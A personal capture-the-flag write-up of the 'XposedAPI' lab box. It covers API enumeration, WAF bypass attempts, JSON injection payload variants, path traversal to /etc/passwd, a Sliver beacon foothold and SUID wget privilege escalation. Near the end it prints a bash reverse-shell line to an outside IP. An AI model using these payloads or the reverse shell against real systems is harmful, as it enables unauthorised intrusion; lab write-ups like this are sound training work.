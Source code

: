 # XposedAPI Writeup

Name: XposedAPI
Date:  4/11/2023
Difficulty:  Intermediate
Goals: 
- TJNULL clearance
Learnt:
- API routes are more important than an endpoint, but understanding the endpoint is more important that any route.
- I am so close to not rabbit holing
- None of these boxes from Proving Ground ever make you spray users and password  
Beyond Root:
- Write some C and use make some how twinned with [[Sybaris-Helped-Through]]

- [[XposedAPI-Notes.md]] - tried to just hack the machine and not worry about noting just screenshotting everything 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Checking port 13337 with `curl`
![](curlingtheapi.png)

Collection the routes to ingest in the automating the content discovery if required
![](initialroutes.png)

We are denied by the WAF
![](wafonlogs.png)
Failed bypass attempt - I forget about `X-Forwarded-For:`, but I was in the correct direction
![](nohostbypasswafonlogs.png)

![](gobustertheroutes.png)

Version 
![](apiversion.png)

Breaking JSON for the error 
![1080](checkingforzerourlfiltering.png)

Invalid user, we need a user...
![](invalidusername.png)
Hitting the wall of the API
![](timeoutgobuster.png)

Trying harder to get by without a username:
HackTrick API 
```json
{"user" :"gunicorn", "url":  "/logs",}
{"user" :true, "url":  "/logs",}
{"user" :null, "url":  "/logs",}
{"user" :1, "url":  "/logs",}
{"user" :[true], "url":  "/logs",}
{"user" :["gunicorn", true], "url":  "/logs",}
{"user" :$neq:"gunicorn", "url":  "/logs",}
// Send array 
{user=gunicorn, "url":  "/logs",}
```
- tried also www-data, root
- checked hints names confirming RCE which seems obvious but time 
- took hint:
	- One endpoint has a vulnerability you need to leverage to exploit another endpoint. Find a username.

![](trueuser.png)
...
![](nulluser.png)
...
![](1user.png)
...
![](sqauretrueuser.png)
...
![](squaretrueadminuser.png)
...
![](neqgunicornuser.png)
...
![](arrayuser.png)

Did not find any users with `ffuf`
![](ffufusers.png)

Tried to overflow the application encase it is a buffer overflow mostly for completionism's stake
![](aaaaaaaaaaausername.png)

Tried encoding a breaking the strings quotes
![](nobreakyjson.png)

Tried wildcards for /log route to bypass the WAF and get some logs
![](wildcardlogs.png)
...
![](percentlogs.png)
...
![](underscorelogs.png)
...
![](dotlogs.png)
...
![](wilddotlogs.png)

Tried arjun to brute force any obvious parameters I may have missed and just to test it
![](tryingarjun.png)

Tried a tool to enumerate the WAF
![](wafw00ftest.png)

## Exploit

At this point I took a hint: which I forget to copy down, but essentially it said something about RCE, but another endpoint will help get a username.  

https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/
```
[**w3af**](https://github.com/andresriancho/w3af) — Web Application Attack and Audit Framework

[**wafw00f**](https://github.com/EnableSecurity/wafw00f) — Identify and fingerprint Web Application Firewall

[**BypassWAF**](https://github.com/vincentcox/bypass-firewalls-by-DNS-history) **–** Bypass firewalls by abusing DNS history. This tool will search for old DNS A records and check if the server replies for that domain. 

[**CloudFail**](https://github.com/m0rtem/CloudFail) – is a tactical reconnaissance tool that tries to find the original IP address behind the Cloudflare WAF.
```

Dorked bypassing WAF and we were successful
![](bypassingthewaf.png)

We have a path traversal vulnerability for the `/etd/passwd`: 
![](HORAH.png)

Trying with the username `clumsyadmin` for a new response from invalid user.
![](usernamegained.png)
## Foothold

And then the out of band file retrieval and happy I have memorise the differences in terminology for in and out of band attack dichotomy. 
![](justmiter.png)

Sliver beacon by way of updating the application with `/restart` API endpoint. 
![](sliveringtofoothold.png)

## Privilege Escalation

Ran linpeas and almost instantly found the `wget` GTFObin.
![](suidwget.png)

And we are root.
![](root.png)

## Post-Root-Reflection  

I did not use noting for this box. I just tried changing up to more improvised methodology to tried to avoid rabbit holes of service enumeration overload and because I had worked ten hours starting at 5 am and limited sleep. Slept after work and just calmly finished this machine in the 3 hours.

## Beyond Root

Understanding `make` - why does `system("/bin/bash -i >& /dev/tcp/192.168.45.225/6379 0>&1",NULL,NULL);` not work. Twinned with [[Sybaris-Helped-Through]]
```
make -C ./src
```

How to avoid the situation prioritising focusing on contextual awareness over the tried and tested methods or historical?